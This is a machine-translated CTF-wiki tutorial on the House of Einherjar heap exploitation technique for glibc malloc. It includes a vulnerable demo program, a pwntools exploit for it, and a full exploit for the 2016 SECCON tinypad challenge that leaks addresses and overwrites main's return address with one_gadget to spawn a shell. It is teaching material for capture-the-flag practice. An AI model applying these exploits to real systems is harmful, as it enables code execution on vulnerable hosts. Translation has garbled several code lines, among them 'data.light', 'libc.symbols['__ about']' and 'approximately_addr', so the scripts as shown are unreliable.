




[EN](./house_of_einherjar.md) | [ZH](./house_of_einherjar-zh.md)
---

typora-root-url: ../../../docs

---


#  House Of Einherjar


## Introduction


The house of einherjar is a heap utilization technique proposed by `Hiroki Matsukuma`. The heap exploit technique forces the `malloc` to return a chunk of almost any address. The main reason is to abuse the backward merge operation in `free` (combining chunks with low addresses), so as to avoid fragmentation as much as possible.


In addition, it should be noted that in some special-sized heap blocks, off by one can not only modify the prev_size of the next heap block, but also modify the PREV_INUSE bit of the next heap block.


## Principle


### Backward merge operation


The backward merge core operation in the `free` function is as follows


```c

        /* consolidate backward */

        if (!prev_inuse(p)) {

            prevsize = prev_size(p);

            size += prevsize;

            p = chunk_at_offset(p, -((long) prevsize));

unlink (off, p, bck, fwd);
        }

```


Here borrow a picture from the original author





For the overall operation, please refer to the chapter on &quot;Understanding the implementation of the heap&quot;.


### Utilization principle


Here we introduce the principle of the use. First of all, in the introduction of the previous heap, we can know the following knowledge


- Two physically adjacent chunks share the `prev_size` field, especially when the low-address chunk is in use, the chunk of the high-address chunk can be used by the chunk of the lower address. Therefore, we hope that the `prev_size` field of the high address chunk can be overwritten by writing the low address chunk.
- A chunk PREV_INUSE bit marks the usage state of its physically adjacent low address chunk, and this bit is physically adjacent to prev_size.
- When merging, the location of the new chunk depends on `chunk_at_offset(p, -((long) prevsize))`.


**So if we can control a chunk prev_size and PREV_INUSE fields at the same time, then we can point the new chunk to almost any location. **


### Utilization process


#### Before overflow


Assume that the state before overflow is as follows





#### overflow


Here we assume that the p0 heap block can write the prev_size field on the one hand, on the other hand, there is a vulnerability of off by one, you can write the PREV_INUSE part of a chunk, then





#### After overflow


** Suppose we set the prev_size field of p1 to the difference between the destination chunk location we want and p1**. After the overflow, we release p1, then the position of the new chunk we get `chunk_at_offset(p1, -((long) prevsize))` is the chunk location we want.


Of course, it&#39;s important to note that since the new chunk is unlinked, you need to make sure that the fake chunk is constructed in the corresponding chunk location to bypass the unlink detection.





### Attack process example


Code that can be used for House Of Einherjar attacks:


```c

#include <stdio.h>

#include <stdlib.h>

#include <unistd.h>


int main(void){

    char* s0 = malloc(0x200);　//构造fake chunk

    char* s1 = malloc(0x18);

    char* s2 = malloc(0xf0);　

Char* s3 = malloc(0x20); //To prevent s2 from merging with top chunk
    printf("begin\n");

    printf("%p\n", s0);

    printf("input s0\n");

    read(0, s0, 0x200); //读入fake chunk

    printf("input s1\n");

    read(0, s1, 0x19); //Off By One

    free(s2);

    return 0;

}

```


The attack code is as follows:


```python

from pwn import *


p = process("./example")

context.log_level = 'debug'

#gdb.attach(p)

p.recvuntil("begin\n")

address = int(p.recvline().strip(), 16)

p.recvuntil("input s0\n")

payload = p64(0) + p64(0x101) + p64(address) * 2 + "A"*0xe0

'''

P64(address) * 2 is to bypass
if (__builtin_expect (FD->bk != P || BK->fd != P, 0))                      \

  malloc_printerr ("corrupted double-linked list");

'''

payload += p64(0x100) #fake size

p.sendline(payload)

p.recvuntil("input s1\n")

payload = "A"*0x10 + p64(0x220) + "\x00"

p.sendline(payload)

p.recvall()

p.close()

```


**Note that the method of bypassing unlink checking here is different from the method used in the previous unlink vulnerability.


When using the unlink vulnerability:


```c

 p->fd = &p-3*4

 p->bk = &p-2*4

```


When used here, because there is no way to find `&amp;p`, so let directly:

```c

p->fd = p

p->bk = p

```


** There is one point to note here: **


```python

payload = p64(0) + p64(0x101) + p64(address) * 2 + "A"*0xe0

```


In fact, it is ok to modify it to the following:


```python

payload = p64(0) + p64(0x221) + p64(address) * 2 + "A"*0xe0

```


According to the truth, the size of the fake chunk is `0x221`, but why is `0x101`? This is because the validation of size and prev_size only happens in unlink, which is verified in unlink:


```c

if (__builtin_expect (chunksize(P) != prev_size (next_chunk(P)), 0))      \

      malloc_printerr ("corrupted size vs. prev_size");

```


So just spoof the prev_size field of the next chunk of the fake chunk.


### to sum up


Here we summarize the places that need to pay attention to this utilization technology.


- An overflow vulnerability is required to write the prev_size and PREV_INUSE parts of a physically adjacent high address.
- We need to calculate the difference between the destination chunk and the p1 address, so we need to leak the address.
- We need to construct the corresponding fake chunk near the destination chunk to bypass the unlink detection.


In fact, this technology is similar to the chunk extend/shrink technology.


## 2016 Seccon tinypad
[Topic link] (https://github.com/ctf-wiki/ctf-challenges/tree/master/pwn/heap/house-of-einherjar/2016_seccon_tinypad)


### Basic function analysis


First of all, it can be seen that a core read function since the program, that is, a string that reads a specified length of bytes, however, when the length of the read happens to be the specified length, a vulnerability of **off by one will occur* *.


Through the analysis program, we can easily see that the basic function of this program is to operate a tinypad, mainly the following operations


- At the beginning, the program judges each memo pointer at the beginning to judge whether it is empty. If it is not empty, it uses strlen to find its corresponding length, and outputs the content of memo. From here, we can also see that there are up to 4 memo.
- Add memo, traverse the variable tinypad that stores memo, determine if memo is being used according to the size of the tinypad&#39;s storage, and then, if possible, assign a memo. From here we can know that the program only starts from the tiny offset of 16*16=256. Each memo stores two fields, one is the size of the memo, and the other is the pointer corresponding to the memo. So we can create a new structure and modify the tinypad identified by ida to make it more readable (but there is no way for ida to help intelligently identify it). Also, since this add function relies on the read function, there is a vulnerability of off by one. In addition, we can see that the size of the chunk requested by the user is up to 256 bytes, which is exactly the same as the unused 256 bytes in front of the tinypad.
- Delete, according to the size of the storage memo to determine whether memo is being used, and set the corresponding memo size to 0, but does not set the pointer to NULL, which may result in Use After Free. ** At the beginning of the program, it is possible to output some related content, which is actually the basis for us to leak some base addresses**.
- Edit. When editing, the program first copies it to the first 256 bytes of tinypad based on the contents of the previously stored memo, but as we said before, when memo stores 256 bytes, there will be off by one Vulnerabilities. At the same time, the program uses strlen to determine the length of the content of the tinypad after copying and output it. After that, the program continues to use strlen to find the length of memo, and reads the specified length of content into the tinypad. According to the read function, `\x00` must appear here. Finally, the program will read the contents of the first 256 bytes of the tinypad into the corresponding memo.
- drop out


### Use


Basic use ideas are as follows


1. Using the UAF vulnerability that did not set the pointer to NULL when deleting, the base address of the leaked heap
2. Re-use the UAF vulnerability to leak the base address of libc.
3. Use the house of einherjar method to forge chunks in the first 256 bytes of tinypad. When we apply again, we can control the pointers and contents of the four memo.
4. Although our first thought here may be to directly override malloc_hook as the one_gadget address, however, since the program uses strlen to interpret how much length can be read when editing, malloc_hook is initially 0. So we cover it directly, so here we use other methods, that is, the return address of the main function of the modified program is one_gadget. The reason why it works is because the return address is often beginning with 7f, and the length is long enough to be overwritten as one_gadget. So we still need to leak the return address of the main function. Since libc stores the address of the main function environ pointer, we can first leak the address of environ and then know the address of the return address of the main function. The environ symbol is chosen here because the environ symbol is exported in libc, and argc and argv are not exported, which is relatively cumbersome.
5. Finally, modify the return address of the main function to the one_gadget address to get the shell.


Specific use of the script is as follows


```python

from pwn import *

context.terminal = ['gnome-terminal', '-x', 'sh', '-c']

if args['DEBUG']:

    context.log_level = 'debug'

tinypad = ELF (&quot;./ tinypad&quot;)
if args['REMOTE']:

    p = remote('127.0.0.1', 7777)

    libc = ELF('./libc.so.6')

else:

    p = process("./tinypad")

    libc = ELF('./libc.so.6')

    main_arena_offset = 0x3c4b20

log.info('PID: ' + str(proc.pidof(p)[0]))


def add(size, content):

    p.recvuntil('(CMD)>>> ')

    p.sendline('a')

    p.recvuntil('(SIZE)>>> ')

    p.sendline(str(size))

    p.recvuntil('(CONTENT)>>> ')

    p.sendline(content)


def edit(idx, content):

    p.recvuntil('(CMD)>>> ')

p.sendline ( &#39;e&#39;)
    p.recvuntil('(INDEX)>>> ')

    p.sendline(str(idx))

    p.recvuntil('(CONTENT)>>> ')

    p.sendline(content)

    p.recvuntil('Is it OK?\n')

    p.sendline('Y')


def delete(idx):

    p.recvuntil('(CMD)>>> ')

    p.sendline('d')

    p.recvuntil('(INDEX)>>> ')

    p.sendline(str(idx))


def run():

    p.recvuntil(

        '  ============================================================================\n\n'

    )

    # 1. leak heap base

    add(0x70, 'a' * 8)  # idx 0

    add(0x70, 'b' * 8)  # idx 1

    add(0x100, 'c' * 8)  # idx 2


    delete(2)  # delete idx 1

    delete(1)  # delete idx 0, idx 0 point to idx 1

    p.recvuntil(' # CONTENT: ')

    data = p.recvuntil('\n', drop=True)  # get pointer point to idx1

heap_base = u64 (data.light (8, &#39;x00&#39;)) - 0x80
    log.success('get heap base: ' + hex(heap_base))


    # 2. leak libc base

    # this will trigger malloc_consolidate
    # first idx0 will go to unsorted bin

    # second idx1 will merge with idx0(unlink), and point to idx0

    # third idx1 will merge into top chunk

    # but cause unlink feture, the idx0's fd and bk won't change

    # so idx0 will leak the unsorted bin addr

    delete(3)

    p.recvuntil(' # CONTENT: ')

    data = p.recvuntil('\n', drop=True)

    unsorted_offset_arena = 8 + 10 * 8

main_arena = u64 (data.ljust (8, &#39;x00&#39;)) - unsorted_offset_arena
    libc_base = main_arena - main_arena_offset

    log.success('main arena addr: ' + hex(main_arena))

    log.success('libc base addr: ' + hex(libc_base))


    # 3. house of einherjar

    add(0x18, 'a' * 0x18)  # idx 0

    # we would like trigger house of einherjar at idx 1

    add(0x100, 'b' * 0xf8 + '\x11')  # idx 1

    add(0x100, 'c' * 0xf8)  # idx 2

    add(0x100, 'd' * 0xf8)  #idx 3


    # create a fake chunk in tinypad's 0x100 buffer, offset 0x20

    tinypad_addr = 0x602040

    fakechunk_addr = tinypad_addr + 0x20

fakechunk_size = 0x101
fakechunk = p64 (0) + p64 (fakechunk_size) + p64 (fakechunk_addr) + p64 (
fakechunk_addr)
edit (3, &#39;d&#39; * 0x20 + fakechunk)


    # overwrite idx 1's prev_size and

    # set minaddr of size to '\x00'

    # idx 0's chunk size is 0x20

    diff = heap_base + 0x20 - fakechunk_addr

    log.info('diff between idx1 and fakechunk: ' + hex(diff))

    # '\0' padding caused by strcpy

    diff_strip = p64(diff).strip('\0')

    number_of_zeros = len(p64(diff)) - len(diff_strip)

    for i in range(number_of_zeros + 1):

        data = diff_strip.rjust(0x18 - i, 'f')

        edit(1, data)

    delete(2)

    p.recvuntil('\nDeleted.')


    # fix the fake chunk size, fd and bk

    # fd and bk must be unsorted bin

    edit(4, 'd' * 0x20 + p64(0) + p64(0x101) + p64(main_arena + 88) +

         p64(main_arena + 88))


    # 3. overwrite malloc_hook with one_gadget


    one_gadget_addr = libc_base + 0x45216

environ_pointer = libc_base + libc.symbols [&#39;__ about&#39;]
    log.info('one gadget addr: ' + hex(one_gadget_addr))

    log.info('environ pointer addr: ' + hex(environ_pointer))

    #fake_malloc_chunk = main_arena - 60 + 9

    # set memo[0].size = 'a'*8,

    # set memo[0].content point to environ to leak environ addr

    fake_pad = 'f' * (0x100 - 0x20 - 0x10) + 'a' * 8 + p64(

        environ_pointer) + 'a' * 8 + p64(0x602148)

    # get a fake chunk

    add(0x100 - 8, fake_pad)  # idx 2

    #gdb.attach(p)


    # get environ addr

    p.recvuntil(' # CONTENT: ')

    environ_addr = p.recvuntil('\n', drop=True).ljust(8, '\x00')

approximately_addr = u64 (approximately_addr)
    main_ret_addr = environ_addr - 30 * 8


    # set memo[0].content point to main_ret_addr

    edit(2, p64(main_ret_addr))

    # overwrite main_ret_addr with one_gadget addr

    edit(1, p64(one_gadget_addr))

    p.interactive()


if __name__ == "__main__":

    run()

```


## references


- https://www.slideshare.net/codeblue_jp/cb16-matsukuma-en-68459606

- https://gist.github.com/hhc0null/4424a2a19a60c7f44e543e32190aaabf

- https://bbs.pediy.com/thread-226119.htm
